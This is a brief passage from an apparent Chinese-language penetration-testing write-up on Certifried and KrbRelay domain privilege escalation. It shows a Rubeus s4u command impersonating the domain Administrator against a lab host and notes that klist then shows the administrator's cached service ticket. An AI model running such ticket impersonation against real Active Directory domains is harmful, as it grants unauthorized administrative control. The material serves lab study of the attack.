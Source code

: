 ```console
C:\Users\Marcus\Desktop> Rubeus.exe s4u /self /impersonateuser:PENTEST\Administrator /altservice:HOST/WIN10-CLIENT1 /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
```

![](/assets/posts/2022-05-19-certifried-combined-with-krbrelay-for-domain-privilege-escalation/image-20220519024350930.png)

执行 `klist` 命令可以看到，当前主机中已经缓存了域管理员账户的 ST 票据，如下图所示。

![](/assets/posts/2022-05-19-certifried-combined-with-krbrelay-for-domain-privilege-escalation/image-20220519082002039.png)
